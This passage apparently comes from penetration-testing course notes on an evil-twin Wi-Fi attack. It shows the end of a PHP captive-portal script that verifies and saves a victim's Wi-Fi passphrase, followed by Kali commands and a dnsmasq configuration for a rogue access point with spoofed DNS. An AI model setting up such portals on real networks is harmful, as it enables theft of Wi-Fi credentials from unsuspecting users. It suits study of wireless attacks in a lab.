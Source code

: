 ```php
		if (strpos($line, "KEY FOUND") !== FALSE) {
			$key_found = TRUE;
			break;
		}
	}
}

if ($key_found) {

  # Save the passphrase and redirect the user to the success page
  @rename($wordlist_path, $success_path);

  header('Location: index.php?success');
} else {
  # Delete temporary file and redirect user back to login page
  @unlink($wordlist_file);

  header('Location: index.php?failure');
}
?>
```
{% endcode %}

### Networking Setup

Configuring our wireless interface for networking:

{% code overflow="wrap" %}
```bash
kali@kali:~$ sudo ip addr add 192.168.87.1/24 dev wlan0

kali@kali:~$ sudo ip link set wlan0 up
```
{% endcode %}

Installing _dnsmasq_:

{% code overflow="wrap" %}
```bash
kali@kali:~$ sudo apt install dnsmasq
...
```
{% endcode %}

Configuring **mco-dnsmaq.conf** for DHCP:

{% code overflow="wrap" %}
```bash
# Main options
# http://www.thekelleys.org.uk/dnsmasq/docs/dnsmasq-man.html
domain-needed
bogus-priv
no-resolv
filterwin2k
expand-hosts
domain=localdomain
local=/localdomain/
# Only listen on this address. When specifying an
# interface, it also listens on localhost.
# We don't want to interrupt any local resolution
# since the DNS responses will be spoofed
listen-address=192.168.87.1

# DHCP range
dhcp-range=192.168.87.100,192.168.87.199,12h
dhcp-lease-max=100
```